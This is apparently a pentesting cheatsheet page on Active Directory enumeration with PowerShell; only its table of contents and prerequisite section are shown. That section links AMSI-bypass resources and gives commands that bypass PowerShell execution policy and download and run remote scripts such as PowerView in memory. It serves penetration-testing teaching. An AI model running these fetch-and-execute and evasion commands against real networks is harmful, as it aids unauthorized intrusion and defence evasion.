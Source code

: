 ```yaml
---
layout: post
title: TA0007 Discovery - AD Enumeration with Powershell
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2021-11-17
permalink: /:categories/:title/
---
```



* [PRE-REQUISITE: Installing PowerView](#PRE-REQUISITE:InstallingPowerView)
* [PRE-REQUISITE: AD Web Services on the DC](#PRE-REQUISITE:ADWebServicesontheDC)
* [T1087.002 Account Discovery - Domain Account](#T1087.002AccountDiscovery-DomainAccount)
	* [Domain Admin Account](#DomainAdminAccount)
	* [Other Privileged Users](#OtherPrivilegedUsers)
* [T1615 Group Policy Discovery](#T1615GroupPolicyDiscovery)
* [T1615 Network Shares](#T1615NetworkShares)
* [T1615 ACL](#T1615ACL)
	* [CHANGE PASSWORD](#CHANGEPASSWORD)
	* [DCSYNC](#DCSYNC)
* [ENUM: DOMAIN](#ENUM:DOMAIN)
* [ENUM: DOMAIN PERSISTENCY](#ENUM:DOMAINPERSISTENCY)
* [ENUM: FOREST PRIVESC](#ENUM:FORESTPRIVESC)
* [T1046 SERVICES LOOTS](#T1046SERVICESLOOTS)
* [ENUM: Kerberoasting](#ENUM:Kerberoasting)
* [MISC](#MISC)




## <a name='PRE-REQUISITE:InstallingPowerView'></a>PRE-REQUISITE: Installing PowerView

- [PowerView CheatSheet](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerView.pdf)
# Bypass AMSI 
- [amsi.fails]('https://amsi.fails')
- [S3cur3Th1sSh1t]('https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell')
- [notes.offsec-journey.com]('https://notes.offsec-journey.com/evasion/amsi-bypass')

```powershell
# Bypass powershell execution protection
powershell -ep bypass


# ActiveDirectory Module v1
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

# ActiveDirectory Module v2
$webreq = [System.Net.WebRequest]::Create(‘https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1')
$resp=$webreq.GetResponse()
$respstream=$resp.GetResponseStream()
$reader=[System.IO.StreamReader]::new($respstream)
$content=$reader.ReadToEnd()
IEX($content)

# PowerView Module
iex (new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1');New-InMemoryModule
```